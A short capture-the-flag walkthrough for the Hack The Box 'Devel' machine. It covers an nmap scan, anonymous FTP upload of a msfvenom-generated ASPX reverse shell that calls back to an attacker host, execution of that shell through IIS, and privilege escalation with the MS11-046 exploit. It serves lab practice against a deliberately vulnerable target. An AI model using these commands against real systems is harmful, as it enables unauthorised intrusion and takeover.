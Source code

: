 Devel without Metasploit:

![Devel](https://user-images.githubusercontent.com/55708909/91413269-7f683500-e868-11ea-8bfa-29ec7f6b1608.png)

Starting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.5

![Devel_nmap](https://user-images.githubusercontent.com/55708909/91413112-492ab580-e868-11ea-9a51-ab777d532f6e.png)

As we have only two ports open we are going to enumerate these two ports

FTP anonymous login is allowed

![Devel_ftp](https://user-images.githubusercontent.com/55708909/91413595-fb627d00-e868-11ea-9607-ee58e55352cc.png)

Find out that FTP & WEB server is on the same path therefore if we upload a shell from FTP we will be able to execute through web server and get reverse shell

![Devel_web](https://user-images.githubusercontent.com/55708909/91413962-7b88e280-e869-11ea-87fc-fcb94663eeca.png)

Since it is IIS7 I guess we can upload a payload in ASP OR ASPX

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f aspx > shell.aspx

Then login in through FTP Server put it & execute it through WEB Server

Here we have a reverse shell from target machine

![Devel_flag](https://user-images.githubusercontent.com/55708909/91415706-11257180-e86c-11ea-8324-b812e92cbe25.png)

After shell will copy systeminfo and ran windows-exploit-suggester.py it kind of recommended MS11-046.exe exploit so i transfer the exploit the same way i did the shell.aspx file and run MS11-046.exe and get root access to the target machine










